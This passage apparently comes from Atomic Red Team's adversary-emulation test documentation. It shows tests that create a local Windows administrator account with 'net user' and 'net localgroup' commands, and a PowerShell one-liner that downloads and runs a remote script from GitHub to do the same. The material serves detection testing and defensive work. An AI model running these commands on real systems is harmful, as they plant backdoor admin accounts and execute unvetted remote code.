 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user /add "#{username}" "#{password}"
net localgroup administrators "#{username}" /add
```

#### Cleanup Commands:
```cmd
net user /del "#{username}" >nul 2>&1
```





<br/>
<br/>

## Atomic Test #9 - Create a new Windows admin user via .NET
Creates a new admin user in a powershell session without using net.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 2170d9b5-bacd-4819-a952-da76dae0815f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/0xv1n/dotnetfun/9b3b0d11d1c156909c0b1823cff3004f80b89b1f/Persistence/CreateNewLocalAdmin_ART.ps1')
```






<br/>

